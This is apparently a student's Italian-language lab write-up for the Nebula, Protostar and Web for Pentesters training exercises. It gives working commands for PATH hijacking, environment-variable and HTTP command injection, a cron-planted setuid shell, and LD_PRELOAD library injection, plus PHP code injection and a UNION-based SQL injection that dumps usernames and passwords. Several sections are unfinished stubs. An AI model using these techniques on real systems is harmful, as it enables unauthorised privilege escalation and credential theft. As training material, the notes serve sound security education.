

# Esercizi di laboratorio:  

<center>

# Nebula 

</center>


## Level00:
tbd

## Level01:

Il comando echo dentro l'eseguibile è eseguito tramite il comando env, che consente di eseguire un comando esterno in un ambiente UNIX.  

```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```

Si vuole arrivare ad eseguire il binario `/home/flag01` con i permessi di flag01.  
Il binario flag01 ha `SETUID` attivo e echo non viene invocato con un path completo, il che permette una comand injection.  

**Exploit:** Si copia getflag come /tmp/echo e si prepone la directory /tmp a `$PATH` che contiene i percorsi di ricerca dei binari. In questo modo quando si invocherà 'echo' verra eseguito /tmp/echo che contiene la copia di getflag, quindi verrà eseguito getflag.  


```bash
# echo $PATH contiene percorso ricerca UNIX dei binari 
# si modifica PATH prependendo la directory /tmp
export PATH=/tmp:$PATH
echo $PATH # mostra /tmp come prima dir di ricerca

# Si copia il file /bin/getflag in /tmp/echo 
cp /bin/getflag /tmp/echo # ora env echo invoca getflag

cd /home/flag01
./flag01 # invoca getflag con i privilegi di getflag!
```

**Mitigazioni:**  
- Si usa il percorso intero di echo ossia `/bin/echo` per evitare injection tramite PATH
- Rimuovere il SETUID da flag01 per impedire esecuzione privilegiata 
- Cambiare il contenuto di PATH usano le funzioni `setenv` o `getenv` nel codice sorgente e ripristinandole dopo l'invocazione, richiede una nuova compilazione del binario.  


## Level02: 

È presente un eseguibile in `/home/flag02`, ha SETUID attivo ed è presente l'utilizzo di una variabile di ambiente non controllata `$USER`.  

```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
Usiamo una comand injection con la seguente struttura: comando_safe + carattere separatore + comando_malizioso + commento. 
Inseriamo dentro la variabile $USER l'output che si aspetta, ossia level02 e poi con il carattere seperaratore `;` iniettiamo il comando `getflag` che verrà eseguito con i privilegi elevati in quanto il binario ha SETUID attivo.  

```bash
echo $USER # stampa valore corrente ossia: level02
# si imposta l input malizioso in USER con export 
export USER="level02; getflag #"
echo $USER # otteniamo level02; getflag #
cd /home/flag02
./flag02 # esegue getflag con i permessi fi flag02 in quanto il binario ha setuid attivo
```

**Mitigazioni**:
- Abbassiamo i privilegi al binario
- Usiamo il comando `getpwuid()` per ottenere il nome dell'user da /etc/passwd invece di usare una variabile modificabile dall'utente.  


## Level03: 
In questo esercizio è presente un daemon cronotab che esegue ogni minuto, per verificarne la presenza si può fare `pstree -p`.  
Studiando la directory di flag03 si scopre che contiene un file sh che prova ad eseguire il contenuto della directory `writable.d` che è world-writable (drwxrwxrwx) ossia un'eccessiva esposizione dell'asset.  
Il cronotab periodicamente eseguirà il file `writable.sh` e quindi andrà ad eseguire tutti i file di writable.d.  

**exploit:** L'obiettivo è sfruttare il cronotab che esegue con i permessi di flag03, infatti inseriremo dentro writable.d che ha permessi abilitati per tutti uno script bash che copi /bin/bash lì e che gli assegni i SETUID e SETGID per eseguire con i privilegi di flag03; Il cronotab quando si attiverà eseguirà `writable.sh` che eseguirà a sua volta i file bash in `writable.d`.  

```bash
# in: /home/flag03/writable.d/exploit.sh 

#!/bin/bash
cp /bin/bash /home/flag03/bash 
chmod u+s /home/flag03/bash 
```

Quando questo file verrà eseguito in /home/flag avremo una copia di bash, basterà eseguire bash con l'opzione -p per non perdere i privilegi e una volta entrati eseguiremo getflag

```bash
level03@nebula: /home/flag03$ ls 
bash  writable.d  writable.sh
level03@nebula: /home/flag03$ /home/flag03/bash -p
bash-4.2$ whoami 
flag03
bash-4.2$ getflag
You have successfully executed getflag on a target account
```


- lvl 05
- lvl 06
- lvl 07:
    In questa challenge si manomette uno script perl per eseguire getflag con permessi elevati. Nello script perl si prende in input un host ma non si sanifica l'input, si può eseguire una comand injection.  
    comand $\rightarrow$ 8.8.8.8 ; getflag \r\n\r\n (bisogna usare il webserver in ascolto)

    ```bash
    echo -ne "GET /index.cgi?Host=8.8.8.8%3Bgetflag\r\n\r\n" | nc localhost 7007
    ```
    Questo permette di eseguire `getflag` con i permessi di level07.  
    **nota importante**: Bisogna usare l'URL encoding per passare il carattere `;` in quanto tale carattere è speciale e viene consumato dal webserver per separare argomenti della query, si prende quindi il codice ASCII di `;` e lo si  traduce in esadecimeale ossia `3B`, si usa il carattere `%` per attivare l'URL encoding. 
    **nota2:** `\r\n\r\n` indica la fine degli header HTTP, senza il server non capisce che la richiesta è finita e non esegue il comando.    


- lvl 08
- lvl 10 (toctou)
- lvl 13:  
    Iniezione di libreria: si sfrutta la variabile di ambiente `LD_LIBRARY_PATH` o `LD_PRELOAD`.  
    Scopriamo che `LD_PRELOAD` contiene un elenco di librerire condivise e tali librerie sono collegate prima di tutte le altre richieste da un file binario eseguibile (LD_PRELOAD =/path/to/lib.so:/path2/...).  
    Attenzione: questa vulnerabilità funziona solo per file compilati dinamicamente in quanto server l'iniezione di libreria, se è statico allora non si può sfruttare questo exploit.  
    Step: 
    1. generare libreria condivisa che sovrascrive la funzione getuid(), facciamo ritornare sempre 1000 
    2. compilare la libreria con -shared e -fPIC 
    3. copiare l'eseguibile da /home/flag13/flag13 in /home/level13 per rimuovere il setuid
    4. iniettare la libreria: export LD_PRELOAD = ./setuid.so
    5. ottenre credenziali 

    ```c++
    // si scrive un eseguibile in c per sovrascrivere la funzione getuid:
    uid_t getuid(void){
        return 1000;
    }
    ```
    ```bash
    # generiamo libreria condivisa con gcc
    gcc -shared -fPIC -o getuid.so getuid.c 
    export LD_PRELOAD=./getuid.so 
    # copiamo il file eseguibile nella directory attuale per eliminare il setuid da esso
    cp /home/flag13/flag13 /home/level13

    # eseguiamo il file
    ./flag13 # -> otteniamo la password per flag13 (su flag13)
    ```

### Protostar 
- stack 01 
- stack 03
- stack 05:  
    Si consulta il codice sorgente per la challenge e si nota che viene allocato un buffer di 64 caratteri sullo stack e successivamente viene riempito tale buffer con dati letti da terminale, tale input non è controllato (recipe for disaster).  
    La modalità per affrontare l'esercizio è in #riassunto.md nel heading `Buffer Overflow`.  
- stack 06:  


    ```bash

    ```


### Web4PenTesters
- Code Injection 1:
    Si guarda il codice sorgente in `/var/www/codeexec` e si nota che viene usata una stringa $str = 'echo...' e che tale stringa viene interpretata come una espressione php.  
    Si usa lo schema di attacco generico: 
    ``` 
    INPUT = input legittimo +  
            carattere separatore codice +  
            codice php arbitrario  +  
            carattere chiusura.  
    ```

    ```bash
    # useremo la seguente struttura per visualizzare i privilegi:
    name = hacker \" +
        + ; 
        + system("id");
        + \" 

    # andremo a scrivere nell\'url il seguente input:
    ...example1.php/name=hacker";system("id");"
    ```
    Questo ci permetterà di chiamare ID e vedere gli uid e gid 
- XSS 1 
- File include 1 


## SQL Injections:

- SQL Injection 1:  
    Nel codice sorgente della sfida notiamo che viene costruita una stringa rappresentante uno statement SQL, tale input non viene controllato in alcun modo e viene mandato ad un DBMS MySQL per l'esecuzione.  
    Si adotta lo schema classico di iniezione al caso specifico.  
    È possibile usare l'operatore **`OR`** per iniettare un comando e l'espressione in questo modo diventa una _tautologia_

    ```bash
    # tautologia
    .../example1.php/name=root 'or 1=1%23 '#

    # clausola SELECT e ORDER BY (per determinare il numero di colonne)  
    .../exmaple1.php/name=root' UNION SELECT NULL,NULL,NULL,NULL,NULL%23 '#
    # oppure 
    .../exmaple1.php/name=root' ORDER BY 6 %23 '# genera un errore allora capisco che si tratta di 5 colonne, infatti:
    .../exmaple1.php/name=root' ORDER BY 5 %23 # non genera errore ! '#
    ```

    Una volta determinato il numero di colonne riesco a eseguire Query omogenee, a questo punto posso enumerare il db e ottenere il suo nome per avanzare nella SQL injection:

    - `root' UNION SELECT version(), database(), current_user(),4,5 %23`

    A questo punto ottengo il nome del DB ossia **exercises**

    Per estrarre le tabelle interessanti del DB devo iniettare il comando `information_schema.tables` tramite una UNION.  

    - `root' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables where table_schema='exercises'%23`  
    Noto che il db exercises ha una sola tabella di nome `users`  

    Faccio la stessa cosa ma per vedere la struttura della colonne  
    - `root' UNION SELECT column_name,2,3,4,5 from information_schema.columns where table_schema ='exercises and table_name='users' %23`
    Noto che la tabella users ha 5 colonne: id, name, age, groupid, passwd  

    A questo punto posso fare il dump della tabella, basta uno statement SELECT che selezioni le colonne interessanti (id,name,passwd) della tabella di interessa (users)

    - `root' UNION SELECT id,name,passwd,4,5 from users %23`

      

    **nota:** Se si è a corto di colonne riflesse si può usare la funzione di sistema `concat()` per concatenare valori di colonne diverse.  

    - `root' UNION SELECT concat(id,':',name,':',passwd),2,3,4,5 from users %23`  
    In questo modo l'ouput interessante ora è compattato in un unica colonna.  
    
- SQL injection 2:  


    ```bash
    ```
